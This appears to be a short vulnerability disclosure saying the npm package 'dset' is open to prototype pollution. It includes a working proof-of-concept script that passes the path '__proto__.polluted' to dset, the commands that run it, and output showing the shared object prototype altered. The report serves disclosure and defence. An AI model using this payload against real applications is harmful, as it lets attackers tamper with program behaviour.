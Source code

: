 # Description

`dset` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var dset = require("dset")
var obj = {}
console.log("Before : " + {}.polluted);
dset(obj, '__proto__.polluted', 'Yes! Its Polluted');
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i dset # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
